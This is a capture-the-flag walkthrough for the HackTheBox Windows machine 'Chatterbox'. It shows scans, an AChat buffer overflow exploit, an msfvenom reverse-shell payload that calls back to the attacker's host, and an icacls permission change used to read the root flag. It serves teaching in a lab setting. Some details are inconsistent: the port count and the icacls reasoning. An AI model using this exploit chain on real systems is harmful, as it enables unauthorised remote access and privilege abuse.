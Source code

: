 ```yaml
---
title: "HTB Chatterbox"
permalink: /writeups/chatterbox
location: default
---
```


# HTB Chatterbox

**Machine Information**

	IP : 10.10.10.74
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.74 -- -sC -sV
```

This should reveal five open ports: `80`, `135`, and `445`, `9255`, and `9256`.

```
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  tcpwrapped   syn-ack
9256/tcp  open  tcpwrapped   syn-ack
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-11T07:33:23-04:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38735/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 3922/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 64306/udp): CLEAN (Failed to receive data)
|   Check 4 (port 14492/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-05-11T11:33:21
|_  start_date: 2024-05-11T11:29:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

The first scan didn't reveal much for port `9255` and `9256` so I ran another one.

```
nmap -p 9255,9256 10.10.10.74 -sC -sV
```

The second scan shows information about a system called `AChat`.

```
PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
```

### Getting a Foothold

Checking `searchsploit` for the product `Achat` returns a remote buffer overflow vulnerability. 

```
Achat 0.150 beta7 - Remote Buffer Overflow | windows/remote/36025.py
```

Copy this to our current working directory.

```
searchploit -m windows/remote/36025.py
```

Reviewing the source code shows it is designed to launch `calc.exe` so we can modify the payload to create a reverse shell. The source code tells us which bad characters to exclude so we can include this in the following `msfvenom` command:

```
msfvenom EXITFUNC=thread -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 BufferRegister=EAX -e x86/unicode_mixed --arch x86 --platform windows -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' -f python
```

Add this payload to the python script and update the target IP. Once everything is ready start a `netcat` listener and launch the payload to get a reverse shell.

```
python2 36025.py
```

Success!

```
C:\Windows\system32>whoami
chatterbox\alfred
```

The user flag can be retrieved from the following directory:

```
C:\Users\alfred\Desktop\user.txt
```

### Privilege Escalation

As the user Alfred we can go into the Administrator folder but can't read the root flag. However, running the command `icacls` shows that Alfred has full permissions for the file.

```
icacls root.txt
```

```
root.txt CHATTERBOX\Administrator:(F)
```

Running the following command allows Alfred to update his permissions to read the file.

```
icacls root.txt /grant Alfred:F
```

The root flag can now be read from the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
